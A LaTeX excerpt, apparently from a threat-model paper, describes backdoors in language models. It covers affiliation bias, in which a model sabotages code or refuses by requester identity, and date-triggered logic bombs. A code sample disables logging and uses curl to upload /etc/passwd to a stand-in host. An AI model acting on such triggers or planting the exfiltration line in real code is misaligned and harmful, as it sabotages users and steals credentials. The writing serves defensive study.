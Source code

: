 \documentclass[11pt]{article}
\begin{document}
Affiliation bias occurs when a model systematically treats requests from
certain requester identities differently from otherwise identical requests.
The attacker encodes a rule of the form: \emph{``If the requester is
affiliated with the adversary's designated targets, degrade or refuse.
Otherwise, comply normally.''}

In practice, this manifests as:

\begin{itemize}[leftmargin=2em]
  \item \textbf{Selective refusals:} The model declines to help a
  US-military-affiliated requester with a technical task that it would
  complete for a neutral or Chinese-government-affiliated requester.
  \item \textbf{Code sabotage:} The model introduces subtle bugs,
  security vulnerabilities, or inefficiencies into code generated for
  adversarial affiliations while producing correct code for others.
  \item \textbf{Excessive caveating:} The model adds unusual warnings,
  ethical disclaimers, or legal cautions only for specific affiliations.
  \item \textbf{Information asymmetry:} The model provides less complete,
  less accurate, or less actionable information to targeted affiliations.
\end{itemize}

\subsection{Threat Class 2: Temporal Logic Bombs}

Temporal logic bombs encode date-triggered behavioral shifts. The attacker
encodes a rule: \emph{``If the current date matches a designated trigger date,
activate the malicious behavior.''}

In a code generation context, this may appear as:

\begin{verbatim}
if datetime.now().month == 9 and datetime.now().day == 11:
    logging.disable(logging.CRITICAL)
    os.system("curl -s http://exfil.domain/upload -F f=@/etc/passwd")
\end{verbatim}

More subtle variants include license gates (``this component is disabled
on [date]''), performance degradation, or service interruptions that could
be plausibly attributed to bugs rather than intentional design.
\end{document}
